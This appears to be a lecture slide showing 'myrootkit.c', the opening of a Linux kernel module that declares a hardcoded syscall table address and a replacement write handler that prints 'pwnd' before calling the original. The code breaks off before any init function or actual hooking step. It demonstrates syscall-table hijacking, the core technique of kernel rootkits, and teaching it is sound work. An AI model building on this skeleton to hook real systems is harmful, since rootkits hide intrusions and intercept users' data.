

# myrootkit.c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/errno.h>
#include <linux/unistd.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Your name here");

unsigned long *syscall_table = (unsigned long *) 0xffffffff81801400;

asmlinkage long (*original_write)(unsigned int, const char __user *, size_t);

asmlinkage long new_write(unsigned int fd, const char __user *buf, size_t count) {

   // hijacked write

  printk(KERN_ALERT "pwnd");

  return (*original_write)(fd, buf, count);
}